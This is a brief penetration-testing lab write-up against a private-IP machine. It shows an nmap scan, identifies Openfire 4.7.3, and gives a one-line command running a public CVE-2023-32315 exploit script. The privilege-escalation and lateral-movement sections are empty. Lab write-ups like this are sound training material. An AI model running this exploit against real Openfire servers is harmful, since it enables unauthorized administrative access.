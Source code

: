 #Pwned! 
```IP
192.168.102.96
```

**This machine is currently broken so it is not possible to vulnerate!**
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.102.96 -vvv -p- -oN enum/full
```
The output being:
```
PORT     STATE SERVICE             REASON         VERSION
22/tcp   open  ssh                 syn-ack ttl 61 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)      
| ssh-hostkey:
|   3072 51:56:a7:34:16:8e:3d:47:17:c8:96:d5:e6:94:46:46 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDEXg8FXWFLif7j7FQTu8UHDljVPydJScrSANssTmxaJiGrN+gwRDyUv2b+RDyMJQIh78HqKdGNtN2DyFkj7Mt78Rgb8+cHhCM4+qQAIj79w3BaA/U4776LXcoCGzJbZsaevQdLTCaVALgs7udySPJvQ+1s6dFHuNPuxmIRmRP9gf0K3rRbV04il4uUVkOD27qyP
mzdSDH/BF+L/ySHkrZqHR4jU6oss2bUtJxT2XU/MS/uxxIoJW8Mx772nL/raLMhxpa3DRKbOCW32F/Jwn3St70NIuA1NX54djYYUJX7DyNFEJEcG7dv9IaPVPtqn+06VlxqfWkuMG9++OfbxPSJcLyPQev/KqLmXGfcMtcbx5q3dt4OphXFQX2XgRpaFlUva3VWLPiuXWK1inHCCRuS4XstquGaw4fFpAhwkSRlsU/P
p+21hqcsZP0IksRddCsqThMQ7G6UwnopYPAmX9HxZhFIq3OuF2Vrsmd2RqOP6kbHBQCl6e5RSiOMAGwrS/s=
|   256 fe:76:e3:4c:2b:f6:f5:21:a2:4d:9f:59:52:39:b9:16 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKul0mG57ikFKG/R4NkI3WOrqKfelhaucgrNRakIlWBS5kOhuds8Atr7ln/+Ibx68OAC4OmNCCIVfgCOTTeUNqY=
|   256 2c:dd:62:7d:d6:1c:f4:fd:a1:e4:c8:aa:11:ae:d6:1f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE8eByMdnF3xIjUD57sRJV68xTPIIajqwIJvps6f6Hu9
9090/tcp open  zeus-admin?         syn-ack ttl 61
9091/tcp open  ssl/xmltec-xmlmail? syn-ack ttl 61
```
## HTTP 9090
Openfire, Version: 4.7.3


# Exploitation

https://github.com/K3ysTr0K3R/CVE-2023-32315-EXPLOIT
CVE-2023-32315
```
python3 CVE-2023-32315.py -u http://192.168.102.96:9090 
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241202082623.png?raw=true)


# PrivEsc

## Manual

## Automated

### Peass
### Mimikatz

# Lateral Movement

